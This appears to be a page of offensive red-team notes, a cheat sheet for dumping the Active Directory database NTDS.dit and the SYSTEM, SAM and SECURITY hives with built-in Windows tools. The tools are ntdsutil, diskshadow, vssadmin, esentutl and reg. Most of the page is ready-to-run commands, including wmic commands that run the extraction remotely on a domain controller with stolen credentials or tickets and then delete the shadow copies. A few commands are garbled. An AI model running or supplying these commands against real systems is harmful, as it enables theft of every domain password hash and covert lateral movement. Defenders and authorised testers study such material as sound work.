 # Living off the Land

## 01 - Common Windows File Locations

The file can be found in the following Windows location:

```
C:\Windows\NTDS\NTDS.dit
C:\Windows\System32\config\NTDS.dit
```

## 02 - Command Prompt

### 2.1 - Enumerate Registry Files

```
C:\> reg query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

### 2.2 - Extract Shadow File

#### 2.2.1 - Install From Media (IFM)

```
C:\> ntdsutil.exe "activate instance ntds" "ifm" "create full c:\temp" quit quit

C:\> ntdsutil.exe "ac in ntds" "ifm" "cr fu c:\temp" q q

C:\> dir c:\temp
```

#### 2.2.2 - DiskShadow

^c70a55

Write down the diskshadow commands in a text file to automate the process.

```
C:\> mkdir C:\exfil

C:\> type C:\diskshadow.txt
set context persistent nowriters
add volume c: alias ShadowVolume
create
expose %ShadowVolume% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %ShadowVolume%
reset
```

Then extract shadow file and SYSTEM from registry. Once two files are present go to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - Credential Access and Dumping/Windows/Active Directory/Volume Shadow Copy/01 - Manual/Unix Shell|section to use impacket to extract credentials via hashdump]].

```
C:\> diskshadow.exe /s c:\diskshadow.txt
C:\> reg save hklm\system c:\exfil\system.bak
C:\> dir c:\exfil
```

#### 2.2.3 - VSSAdmin.exe

```
C:\> vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\extract.dit

C:\> vssadmin create shadow /for=C: 2>&1

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy 2>&1

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1

C:\> dir C:\ShadowCopy\

C:\> vssadmin delete shadows /for=C:
```

Can be performed laterally via `wmic.exe`.

```
C:\> wmic /node:<domain_controller_IP> [/user:<DOMAIN>\<username> /password:<password>] process call create "cmd.exe /c vssadmin 
create shadow /for=C: 2>&1"

C:\> wmic /node:<domain_controller_IP> [/user:<DOMAIN>\<username> /password:<password>] process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy & \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1"

C:\> dir \\<domain_controller_IP>\C$\ShadowCopy\

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\NTDS.dit c:\Windows\Temp\NTDS.dit

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\SYSTEM c:\Windows\Temp\SYSTEM

C:\> wmic /node:<domain_controller_IP> [/user:<DOMAIN>\<username>] [/password:<password>] process call create "cmd /cvssadmin delete shadows /for=C: 2>&1"
```

You can also pass the ticket.

```
C:\> wmic /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd.exe /c vssadmin create shadow /for=C: 2>&1"

C:\> wmic /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy & \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1"

C:\> dir \\<domain_controller_IP>\C$\ShadowCopy\

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\NTDS.dit c:\Windows\Temp\NTDS.dit

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\SYSTEM c:\Windows\Temp\SYSTEM

C:\> wmic /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd /cvssadmin delete shadows /for=C: 2>&1"
```

Delete shadow files.

```
C:\> vssadmin List Shadows

C:\> vssadmin Delete Shadows /For=C:

C:\> vssadmin.exe delete shadows /all /quiet
```

#### 2.2.4 - esentutl.exe

```
C:\> esentutl.exe /p c:\temp\ntds.dit
```

```
C:\> esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\security
esentutl.exe /y /vss C:\Windows\System32\config\SYSTEM /d c:\temp\SYSTEM
```

## 03 - Powershell

### Enumerate Registry Files

```
C:\> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters -Value "DSA Database file"
```

### Extract Shadow File

TODO: Include powershell cmdlets to convert some of the techniques below

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [Pentestlab Blog: Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)

- [Active Directory Security: How Attackers Dump Active Directory Database Credentials](https://adsecurity.org/?p=2398)

- [Red Team Notes: Dumping Domain Controller Hashes Locally and Remotely](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)

- [Red Team Notes: Dumping SAM via Esentutl](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-sam-via-esentutl.exe)

- [Dumping Domain Controller Hashes via wmic and Vssadmin Shadow Copy](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin)

- [DiskShadow: The Return of VSS Evasion, Persistence, and Active Directory Database Extraction](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)

- [Password Auditing: How to Extract and Analyse Domain User Passwords](https://www.surecloud.com/resources/blog/extract-analyse-domain-user-passwords)

- [Ultimate IT Security: Creating a shadow copy of ntds.dit and the SYSTEM file](https://www.ultimatewindowssecurity.com/blog/default.aspx?p=bbcddadf-677f-4f60-9d55-914f631c3d1a)

- [Netwrix: Extracting Password Hashes from the Ntds.dit File](https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/)